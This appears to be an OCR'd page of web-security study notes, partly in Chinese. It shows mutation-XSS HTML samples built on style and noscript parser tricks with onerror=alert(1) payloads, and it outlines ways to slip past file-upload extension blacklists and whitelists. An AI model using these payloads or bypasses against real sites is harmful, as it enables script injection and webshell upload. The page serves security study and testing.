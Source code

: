 ```html
<p>test
<p>test</p>

<a alt=test>xxx</a>
<a alt="test">xxx</a>

<table><a>
<a></a><table></table>
```

```html
<style><a alt="</style><img src=x onerror=alert(1)>">

<style>
    <a alt="
</style>
<img src="x" onerror="alert(1)">"&gt;


<noscript><style></noscript><img src=x onerror="alert(1)">

<noscript>
    #text: <style>
<img src="x" onerror="alert(1)">
```

## 文件上传


- 客户端（前端）验证：无影响

- 服务端（后端）验证

    - 检查filename后缀

        - 黑名单

            - 关联扩展名`php3` `php4` `php5` `phtml`
            - 大小写 `PHp` 
            - 双写 `pphphp` `.p.phphp`
            - 加空格 `php ` 等
            - 加点 `php.` `php..` 等
            - 目录相关 `php/.` `php/x/..` 等
            - Apache配置文件 `.htaccess`
            - PHP运行时配置文件 `.user.ini`
            - NTFS文件系统特殊标记 `::$DATA`

        - 白名单

            - 00截断：POST请求参数需要URL decode
            - 单独的文件名参数改为数组形式，如 `['demo.php','.','jpg']`

    - 检查Content-Type：Mime白名单

    - 检查内容
